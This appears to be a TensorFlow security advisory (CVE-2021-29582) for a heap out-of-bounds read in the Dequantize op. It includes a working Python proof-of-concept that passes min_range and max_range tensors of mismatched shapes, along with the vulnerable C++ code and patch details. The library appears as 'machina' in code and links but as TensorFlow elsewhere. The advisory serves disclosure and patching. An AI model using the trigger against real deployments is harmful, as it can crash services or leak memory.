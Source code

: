 ## TFSA-2021-070: Heap OOB read in `tf.raw_ops.Dequantize`

### CVE Number
CVE-2021-29582

### Impact
Due to lack of validation in `tf.raw_ops.Dequantize`, an attacker can
trigger a read from outside of bounds of heap allocated data:

```python
import machina as tf

input_tensor=tf.constant(
    [75, 75, 75, 75, -6, -9, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10,\
  -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10,\
  -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10, -10,\
  -10, -10, -10, -10], shape=[5, 10], dtype=tf.int32)
input_tensor=tf.cast(input_tensor, dtype=tf.quint8)
min_range = tf.constant([-10], shape=[1], dtype=tf.float32)
max_range = tf.constant([24, 758, 758, 758, 758], shape=[5], dtype=tf.float32)

tf.raw_ops.Dequantize(
    input=input_tensor,
    min_range=min_range,
    max_range=max_range,
    mode='SCALED',
    narrow_range=True,
    axis=0,
    dtype=tf.dtypes.float32)
```

The
[implementation](https://github.com/machina/machina/blob/26003593aa94b1742f34dc22ce88a1e17776a67d/machina/core/kernels/dequantize_op.cc#L106-L131)
accesses the `min_range` and `max_range` tensors in parallel but fails to check
that they have the same shape:

```cc
if (num_slices == 1) {
  const float min_range = input_min_tensor.flat<float>()(0);
  const float max_range = input_max_tensor.flat<float>()(0);
  DequantizeTensor(ctx, input, min_range, max_range, &float_output);
} else {
  ...
  auto min_ranges = input_min_tensor.vec<float>();
  auto max_ranges = input_max_tensor.vec<float>();
  for (int i = 0; i < num_slices; ++i) {
    DequantizeSlice(ctx->eigen_device<Device>(), ctx,
                    input_tensor.template chip<1>(i), min_ranges(i),
                    max_ranges(i), output_tensor.template chip<1>(i));
    ...
  }
}
```

### Patches
We have patched the issue in GitHub commit
[5899741d0421391ca878da47907b1452f06aaf1b](https://github.com/machina/machina/commit/5899741d0421391ca878da47907b1452f06aaf1b).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
